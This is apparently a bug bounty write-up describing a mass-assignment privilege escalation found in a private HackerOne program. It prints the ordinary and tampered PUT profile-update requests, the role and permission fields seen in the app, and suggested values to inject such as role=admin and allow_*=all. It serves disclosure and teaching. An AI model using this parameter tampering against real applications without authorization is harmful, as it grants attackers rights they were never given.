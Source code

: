 ```yaml
---
title: 'EN \| Administrator level Privilege Escalation story'
date: 2020-03-19
permalink: /posts/administrator-level-privilege-escalation-story/
tags:
  - privilege escalation
  - administrator level
  - Bug Bounty
  - hack
  - bugbounty
  - write-up
  - poc
excerpt: 'EN \| Administrator level Privilege Escalation story'
---
```


In January of this year, I participated in a private program on HackerOne that was vulnerable to a Privilege Escalation. This is a private program, I can not disclose the name or company-related information per their request because of this I censored some parts of screenshots and requests. However, I wanted to share the details on how I escalated my basic privileges from a regular account to an admin user.

### Recon
Recon is the most important thing in the bug bounty, but this time I needn’t much to it. Because the Privilege Escalation was in the main domain. So I focused on requests and responses. 

### The most important step
The most important step to finding a privilege escalation is understanding to “How the application works?”, If you don’t pass this step, you can find privilege escalations easily. 

### Understanding the working principle of the application
There is only one tip. 
Read the field manual. (documentation)

<img src="/images/PrivEsc-BlogPost-1.PNG">  


### Finding Story
Refer to my penetration testing process, firstly I look for requests and responses. So, I did the same.

**URL Request:**
https://PRIVATE-PROGRAM.ext/me path and saw `whoami` code snippet in source-code and there were some privileges.

**whoami code snippet :**
`model_access_rules"
{"role":"administrator","user_type_id":1,"level":"userlevel10","model":"BillRate","allow_create":"all","allow_read":"all","allow_update":"all","allow_destroy":"all"},
{"role":"team_member","user_type_id":3,"level":"userlevel30","model":"BillRate","allow_create":"none","allow_read":"none","allow_update":"none","allow_destroy":"none"}`

<img src="/images/PrivEsc-BlogPost-3.PNG">  

This is a very good reference to find a privilege escalation, right? 

I am reading the code snippet and I understand that We can not update, create, read or destroy the “billrate” but an administrator can.



Examples : 

> `role` : We all know what is this. Change it to “admin, administrator, root”
> `user_type_id` : This refers to your privilege levels as integer. So we can put “0, 1, -1” to ours. 
> `level` : Doing the same function with the `user_type_id`, we can change it to “userlevel10”
> `allow_*` : This is controlling your privileges, so change it to “True, 1, yes, all”


So, we know what can I do with these parameters. Now we need only “How can we change these parameters?”. 


### Eureka! Eureka!
The website has a “profile update” function, we can add our potential vulnerable parameters to this request.


**Normal REQUEST:**
PUT /api/users/752902 HTTP/1.1  
Host: PRIVATE-PROGRAM  
Accept: application/json, text/javascript, */*; q=0.01  
Content-Type: application/x-www-form-urlencoded  
X-Requested-With: XMLHttpRequest  
Content-Length: 316  
Cookie: *redacted*  
  
first_name=hacker&last_name=hacker&location=...&tags=...&custom_field_values=...&email=samet%40wearehackerone.com&license_type=licensed 


Adding our potential vulnerable parameters to the request

**Vulnerable REQUEST:**
PUT /api/users/752902 HTTP/1.1  
Host: PRIVATE-PROGRAM  
Accept: application/json, text/javascript, */*; q=0.01  
Content-Type: application/x-www-form-urlencoded  
X-Requested-With: XMLHttpRequest  
Content-Length: 316  
Cookie: *redacted*  
  
first_name=hacker&last_name=hacker&location=...&tags=...&custom_field_values=...&email=samet%40wearehackerone.com&license_type=licensed &**billability_target=1337&billrate=1337**



We have an administrator-level privilege escalation now...

### The end : 
But it is duplicate.
<img src="/images/PrivEsc-BlogPost-2.PNG">  
